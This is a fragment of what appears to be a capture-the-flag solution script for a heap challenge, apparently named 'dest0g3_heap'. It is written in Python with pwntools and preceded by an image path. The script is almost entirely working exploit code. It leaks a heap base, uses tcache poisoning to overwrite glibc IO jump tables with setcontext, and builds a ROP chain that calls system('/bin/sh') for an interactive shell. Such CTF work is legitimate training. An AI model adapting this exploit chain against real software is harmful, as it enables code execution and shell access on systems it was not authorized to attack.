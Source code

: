 ```python
system = libc_base+libc.sym['system']
one = libc_base + 0xe6c84
ret = libc_base + 0x0000000000025679
pop_r15 = 0x0000000000026b71+libc_base
sh = libc_base+libc.search('/bin/sh\x00').next()
pop_rdi = 0x0000000000026b72+libc_base
pop_rsi = 0x0000000000027529+libc_base


lg('ret')
lg('IO_helper_jumps')
add(0x68,6)

add(0x68,7)
dele(7)

dele(2)
show(6)
p.recvuntil("content: ")
heap_base = u64(p.recv(6).ljust(8,'\x00'))-0xb20
lg('heap_base')
edit(6,p64(IO_file_jumps+0x60))
add(0x68,2)
add(0x68,8,p64(setcontext))

add(0x68,7)
dele(7)

dele(2)
edit(6,p64(IO_helper_jumps+0xa0))
add(0x68,2)
add(0x68,9,p64(heap_base+0xa30)+p64(ret))

add(0x68,7)
dele(7)

dele(2)
edit(6,p64(heap_base+0xc60))
add(0x68,2,p64(pop_rdi)+p64(sh)+p64(system))
add(0x68,7,p64(0)*5)


sla('>> ',1)
sla("How much do you want?",0x100)
sla("Which one do you want to put?",1)

p.interactive()
```



## dest0g3_heap

